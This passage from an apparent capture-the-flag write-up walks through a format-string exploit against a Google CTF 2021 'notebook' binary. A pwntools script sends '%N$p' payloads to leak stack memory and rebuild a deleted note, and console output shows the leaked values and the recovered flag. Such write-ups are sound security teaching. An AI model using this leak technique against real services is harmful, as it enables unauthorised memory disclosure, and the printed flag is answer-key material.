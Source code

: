 In order to recover the deleted note, we'll use the following script (which dumps QWORDs starting from offset `365` and takes care of reversing the output string due to the endianness):

```python
# First, generate a pwntools exploit via:
#  pwn template --host pwn-notebook.2021.ctfcompetition.com --port 1337 ./notebook
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

def read_menu(io):
    io.recvuntil(b'> ')

def make_draft(io, draft):
    read_menu(io)
    io.sendline(b'3')
    io.recvuntil(b'Quote: ')
    io.sendline(draft.encode())
    io.recvuntil(b'< ')
    res = io.recvuntilS(b' >', drop = True)
    log.info(f"Creating draft: Sent: {draft}, got: {res}")
    return res

io = start()

BASE_OFFSET = 365
note = ""
offset = 0

while "}" not in note:
    res = format(int(make_draft(io, f"%{BASE_OFFSET + offset}$p"), 16), 'x')
    decoded = unhex(res.rstrip('0')).decode()[::-1]
    offset += 1
    note += decoded

log.success(f"Deleted note recovered: '{note}'")
```

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/google/11_Heathrow_-_Secret_Warehouse]
└─$ python3 exploit.py
[*] '/media/sf_CTFs/google/11_Heathrow_-_Secret_Warehouse/notebook'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn-notebook.2021.ctfcompetition.com on port 1337: Done
[*] Creating draft: Sent: %365$p, got: 0x696d655200000000
[*] Creating draft: Sent: %366$p, got: 0x5443203a7265646e
[*] Creating draft: Sent: %367$p, got: 0x74616d726f667b46
[*] Creating draft: Sent: %368$p, got: 0x5f676e697274735f
[*] Creating draft: Sent: %369$p, got: 0x5f6568745f726f66
[*] Creating draft: Sent: %370$p, got: 0x7d6e6977
[+] Deleted note recovered: 'Reminder: CTF{format_string_for_the_win}'
[*] Closed connection to pwn-notebook.2021.ctfcompetition.com port 1337
```